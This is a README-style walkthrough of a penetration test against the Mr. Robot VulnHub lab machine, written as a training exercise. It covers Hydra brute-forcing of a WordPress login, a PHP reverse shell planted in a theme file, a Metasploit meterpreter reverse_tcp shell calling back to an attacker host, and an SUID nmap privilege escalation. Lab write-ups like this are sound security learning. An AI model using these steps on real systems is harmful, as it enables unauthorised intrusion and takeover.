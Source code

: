 <div align="center"><h1>Ivan Arias</h1></div>
<div align="center"><h2>Full-Stack Developer | Junior Penetration Tester | AWS Enthusiast</h2></div>

<div id="badges" align="center">
  <a href="https://www.linkedin.com/in/hcoco1/">
    <img src="https://img.shields.io/badge/LinkedIn-blue?style=for-the-badge&logo=linkedin&logoColor=white" alt="LinkedIn Badge"/>
  </a>
  <a href="https://www.youtube.com/channel/UCban0ilP3jBC9rdmL-fPy_Q">
    <img src="https://img.shields.io/badge/YouTube-red?style=for-the-badge&logo=youtube&logoColor=white" alt="Youtube Badge"/>
  </a>
  <a href="https://twitter.com/hcoco1">
    <img src="https://img.shields.io/badge/Twitter-blue?style=for-the-badge&logo=twitter&logoColor=white" alt="Twitter Badge"/>
  </a>
</div>  


# Career Simulation 4

## Hacking Mr. Robot Virtual Machine

### by: [**Ivan Arias**](http://www.hcoco1.com) 🧑🏻‍💻 ☠️

### Overview

"Penetration testing is like a security checkup for computer systems. Testers simulate hacker activities to identify and fix vulnerabilities before real hackers can exploit them. This project will conduct a thorough web penetration test using the Mr. Robot Virtual Machine, which simulates realistic web vulnerabilities in a safe environment—allowing for exploring and documenting potential security flaws without affecting real systems.

Every step, finding, and the overall result will be carefully documented throughout the process. This website will present a detailed account of the methodology and outcomes of the penetration testing journey, offering insight into how security assessments are carried out and highlighting the importance of regular security maintenance in preventing cyber attacks."

### [**Live Report**](https://hcoco1.github.io/Career-Simulation-4/) 🧑🏻‍💻 ☠️

## Step 1: Set Up Environment
- **Objective:** Prepare your Kali Linux attacker VM and the Mr. Robot Vulnhub target VM.
- **Actions:**
  - Install necessary software on Kali Linux:
  
    ```bash
    sudo apt update
    sudo apt install -y nmap gobuster hydra metasploit-framework
    ```

## Step 2: Network Scanning
- **Objective:** Identify the target's open ports and services.
- **Tools:** Nmap
- **Commands:**
    ```bash
    nmap -sS -sV -O 192.168.1.226
    ```

## Step 3: Enumeration
- **Objective:** Gather detailed information about the target's web applications and technologies.
- **Tools:** Gobuster, Wappalyzer
- **Commands:**
    ```bash
    gobuster dir -u http://192.168.1.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```
  - Use Wappalyzer browser extension to identify web technologies used by the target site.

## Step 4: Vulnerabilities
- **Objective:** Identify vulnerabilities in the target's web applications and services.
- **Tools:** Nmap, Nikto
- **Commands:**
    ```bash
    nmap --script vuln 192.168.1.226
    nikto -h http://192.168.1.226
    ```

## Step 5: Brute-force
- **Objective:** Gain access to the target by brute-forcing login credentials.
- **Tools:** Hydra
- **Commands:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
    ```

## Step 6: Reverse Shell
- **Objective:** Gain remote access to the target system.
- **Tools:** PHP Reverse Shell, Metasploit

### Manual PHP Reverse Shell
1. **Upload a PHP Reverse Shell:**
   - Go to the WordPress admin panel at `http://192.168.1.226/wp-admin` and log in using the credentials found or brute-forced.
   - Navigate to Appearance > Theme Editor, select the `404.php` file, and insert the PHP reverse shell code from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

2. **Start a Netcat Listener:**
    ```bash
    nc -lvnp 4444
    ```

3. **Trigger the Reverse Shell:**
   - Visit the modified `404.php` file in your browser to trigger the reverse shell.
    ```bash
    http://192.168.1.226/wp-content/themes/[your-theme]/404.php
    ```

### Using Metasploit
1. **Start Metasploit:**
    ```bash
    msfconsole
    ```

2. **Select the Exploit Module:**
    ```bash
    use exploit/unix/webapp/wp_admin_shell_upload
    ```

3. **Set Required Options:**
    ```bash
    set RHOSTS 192.168.1.226
    set RPORT 80
    set USERNAME elliot
    set PASSWORD ER28-0652
    set TARGETURI /
    set LHOST 192.168.1.223
    set LPORT 4444
    set payload php/meterpreter/reverse_tcp
    set VERBOSE true
    ```

4. **Run the Exploit:**
    ```bash
    exploit
    ```

5. **Interacting with Meterpreter:**
    ```plaintext
    meterpreter > shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

6. **Navigating the File System:**
    ```bash
    cd /home/robot
    ls -a
    cat key-1-of-3.txt
    cat key-2-of-3.txt
    ```

### Privilege Escalation (if needed)
- **Identify SUID binaries:**
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```

- **Exploit Nmap for Privilege Escalation:**
    ```bash
    /usr/local/bin/nmap --interactive
    !sh
    ```

- **Read the Final Key:**
    ```bash
    find / -name "key-3-of-3.txt" 2>/dev/null
    cat /root/key-3-of-3.txt
    ```

### Clean Up
1. **Remove Uploaded Files:**
    ```bash
    rm /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php
    rm -rf /wp-content/plugins/lCXSKnpNHP
    ```

